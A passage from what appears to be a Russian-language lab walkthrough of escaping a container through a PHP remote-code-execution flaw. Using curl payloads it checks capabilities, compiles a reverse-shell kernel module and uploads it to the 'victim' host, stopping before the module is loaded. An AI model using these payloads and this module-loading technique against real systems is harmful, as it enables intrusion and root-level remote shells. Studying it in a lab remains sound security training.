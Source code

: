 Теперь посмотрим доступные разрешения:
```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('capsh --print');"
  <h1> Hello world!</h1>
  Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
  Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
  Securebits: 00/0x0/1'b0
   secure-noroot: no (unlocked)
   secure-no-suid-fixup: no (unlocked)
   secure-keep-caps: no (unlocked)
  uid=0(root)
  gid=0(root)
  groups=
  <br>
```

Наличие в выводе `cap_sys_module` говорит о том что мы можем воспользоваться 
специально подготовленным модулем для запуска revers shell на атакуемой
системе.

Соберём специально подготовленный модуль для получения shell на хостовой 
системе.

Так как хосты `victim` и `hacker` имеют одну и туже ОС, то мы можем 
откомпилировать модуль на хосте `hacker` и записать его на хост
`victim` через RCE. Для сборки модуля выполним следующие команды:
```
vagrant@hacker:~$ cd /vagrant/hacker
vagrant@hacker:/vagrant/hacker$ sudo apt-get install linux-headers-`uname -r`
vagrant@hacker:/vagrant/hacker$ make
  make -C /lib/modules/4.19.0-9-amd64/build M=/vagrant/hacker modules
  make[1]: Entering directory '/usr/src/linux-headers-4.19.0-9-amd64'
    CC [M]  /vagrant/hacker/reverse-shell.o
    Building modules, stage 2.
    MODPOST 1 modules
    CC      /vagrant/hacker/reverse-shell.mod.o
    LD [M]  /vagrant/hacker/reverse-shell.ko
  make[1]: Leaving directory '/usr/src/linux-headers-4.19.0-9-amd64'
```

Загрузим эксплоит на хост `victim`. Для этого передадим файл в теле HTTP запроса.
Но так как наш эксплоит работает с аргументом `code`, который передается только 
в качестве GET аргумента. И целевая программа абсолютно не умеет обрабатывать
POST аргументы. Поэтому мы сформируем линк в котором в качестве значения
аргумента `code` укажим программу, которая будет обрабатывать POST аргументы. 
Текст программы будет выглядить так:
```php
move_uploaded_file($_FILES['shell']['tmp_name'], 'reverse-shell.ko');
```

Произведем urlencoding этой строки и выполним получившийся запрос:
```
vagrant@hacker:~$ curl -v  -X POST 192.168.50.4/?code=move_uploaded_file%28%24_FILES%5B%27shell%27%5D%5B%27tmp_name%27%5D%2C%20%27reverse-shell.ko%27%29%3B \
-F 'shell=@reverse-shell.ko'
```
